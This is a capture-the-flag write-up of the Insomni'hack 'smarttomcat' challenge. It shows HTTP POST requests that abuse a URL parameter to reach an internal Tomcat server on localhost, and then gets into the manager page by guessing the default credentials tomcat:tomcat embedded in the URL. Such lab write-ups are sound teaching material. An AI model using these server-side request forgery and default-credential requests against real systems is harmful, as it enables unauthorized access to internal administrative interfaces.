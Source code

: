 This is a simple challenge.

We have a web application to locate places from coordinates. A standard request would look like this:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/index.jsp?x=1%26y=2
```

We try

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/zzz
```
and got: 

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 404 - /zzz</h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u>/zzz</u></p><p><b>description</b> <u>The requested resource is not available.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

Now let's try to read the contents of the Manager page

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/manager/html
```

The response is

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

This application requires login, we know that tomcat uses the basic authent and the credential can be [passed in URL] (http://serverfault.com/questions/371907/can-you-pass-user-pass-for- http-basic-authentication-in-url-parameters). With a little luck, I guess the account is `tomcat / tomcat`

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://tomcat:tomcat@localhost:8080/manager/html
```

and we got the flag

```
We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

